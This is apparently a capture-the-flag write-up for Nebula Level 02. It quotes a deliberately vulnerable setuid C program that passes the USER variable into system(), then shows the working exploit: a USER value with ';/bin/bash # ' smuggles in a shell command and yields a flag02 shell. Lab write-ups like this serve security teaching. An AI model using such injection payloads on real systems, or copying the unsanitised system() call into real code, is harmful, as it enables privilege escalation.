 # Level 02
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
## Writeup
The problem in this code is run **/bin/echo** with a environment variable **USER** without checking his content.
We can put a string inside with **;** character and the **/bin/bash** command with a comment at the end to comment the other code.

```bash
USER='ciao;/bin/bash # ' /home/flag02/flag02
```

We have now a bash with **flag02** account. We can check it with **id** command:

```bash
flag02@nebula:/home/flag02$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
```

Now we can run `getflag` command:

```bash
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
